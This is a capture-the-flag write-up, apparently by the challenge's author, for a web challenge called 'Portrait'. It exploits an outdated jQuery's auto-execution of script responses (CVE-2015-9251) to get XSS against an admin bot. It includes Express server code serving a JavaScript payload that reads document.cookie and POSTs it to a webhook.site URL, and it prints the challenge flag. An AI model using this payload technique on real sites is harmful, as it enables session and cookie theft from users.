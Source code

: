 ```yaml
---
layout: post
current: post
cover:  assets/squ1rrel/kyleburgess2025/portrait/cover.webp
navigation: True
title: "Portrait"
date: 2025-04-06 11:59:00
tags: [squ1rrel, web]
class: post-template
subclass: 'post'
author: kyleburgess2025
---
```


It's like DeviantArt, but with a report button to keep it less Deviant. *Reporting a gallery will make the admin bot visit it.*

Welcome to Portrait, the final challenge I wrote and my first XSS challenge. The idea for this challenge came from a super cool Canvas vuln I read about recently. This XSS vulnerability in the Canvas course software was found by Andrew Healey and can be read about [here](https://github.com/andrew-healey/canvas-lms-vuln). The vulnerability comes from an outdated version of JQuery being used - namely, 1.7.2, which has [this vulnerability](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-9251). The name of this challenge, Portrait, is a cheeky reference to the Canvas vulnerability.

# The Problem

Upon registering for an account, we are brought to a gallery where we can create new portraits, providing a name and a source URL for the image. The gallery also displays our previous portraits as a title and an image combination.

![image of gallery page](/assets/squ1rrel/kyleburgess2025/portrait/gallery.webp)
*if you're looking for a gallery curator, MoMA, hmu*

There is also a `/report` endpoint where you can give the admin bot a link to a gallery to visit; the flag will be stored in the cookies of the admin bot. Basically, we need to make a portrait that will cause the cookies of the admin bot to be leaked to us when the admin bot visits.

# Diving In

Let's take a look at the suspicious parts of the code.

First, at the top of `static/gallery.html`, we have the following:

```html
<script type="text/javascript" src="https://code.jquery.com/jquery-1.8.1.min.js"></script>
```

Sweet, an outdated version of JQuery! A quick Google of JQuery 1.8.1 leads us back to the [CVE](https://www.cvedetails.com/cve/CVE-2015-9251/) I mentioned earlier. Now, let's see how we can exploit it...

```js
$(document).ready(function () {
  const username = new URLSearchParams(window.location.search).get("username");
  $.ajax({
      url: "/api/portraits/" + username,
      type: "GET",
      success: function (data) {
          data.forEach(portrait => {
              const newImage = $("#portraitsContainer").append(`
                  <div class="col-md-4 mb-4">
                      <div class="card shadow-sm">
                          <img src="${portrait.source}" class="card-img-top" alt="${portrait.name}">
                          <div class="card-body text-center">
                              <h5 class="card-title">${portrait.name}</h5>
                          </div>
                      </div>
                  </div>
              `);
              newImage.find("img").last().on("error", e => {
                  $.get(e.currentTarget.src).fail(response => {
                      if (response.status === 403) {
                          $(e.target).attr("src", "https://cdn.pixabay.com/photo/2021/08/03/06/14/lock-6518557_1280.png");
                      } else {
                          $(e.target).attr("src", "https://cdn.pixabay.com/photo/2024/02/12/16/05/siguniang-mountain-8568913_1280.jpg");
                      }
                  })
              })
          });
      }
  });
  // ...
});
```

Ok, first off, we have `$.ajax` being called without the `dataType` option, which is a red flag. However, on success, the data retrieved from the URL is put into an `img` source, so any scripts returned won't be run. Let's look instead at the error handling. If an `img` element has an error, a request is made to the image source and the error code is checked to see which placeholder image should be used.

However, the JQuery CVE we discussed before mentioned that if `dataType` is not specified and Javascript is returned, the script will automatically be run on the client's computer. Thus, if we can deploy a server that serves Javascript instead of an image and make it the source for one of our portraits, we should get XSS! Let's try:

```js
const app = require("express")();
app.use(require("cors")());

const payload = `
(function() {
    alert("XSS");
})();
`;

app.get("/image", (req, res) =>
  const isImage = req.headers.accept.includes("image");
  res.writeHead(200, { "Content-Type": "application/javascript" });
  res.end(payload);
);

app.listen(8081);
```

Using you favorite quick-deploy service (I used Cloudflared, since it doesn't have an interstitial that checks if you're human), we can get a public URL that we can use as the image source. Let's try this out:

![image of gallery page with xss](/assets/squ1rrel/kyleburgess2025/portrait/xss.webp)

Beautiful. Now, let's change the payload:

```js
const app = require("express")();
app.use(require("cors")());

const payload = `
(function() {
    const cookies = document.cookie;
    const url = "https://webhook.site/91c39d9c-76da-4ced-9624-96700b8ad703";

    fetch(url, {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: "cookies=" + encodeURIComponent(cookies)
    });
})();
`

app.get("/image", (req, res) =>
  const isImage = req.headers.accept.includes("image");
  res.writeHead(200, { "Content-Type": "application/javascript" });
  res.end(payload);
);

app.listen(8081);
```

After deploying with Cloudflared and reporting the link to my account (`http://{CHALLENGE_IP}/gallery?username={ACCOUNT_NAME}`), our Webhook gets pinged!

![image of a Webhook request](/assets/squ1rrel/kyleburgess2025/portrait/webhook.webp)

Flag: `flag=squ1rrel{unc_s747us_jqu3ry_l0wk3y_take_two_new_flag_check_this_out_guys}`
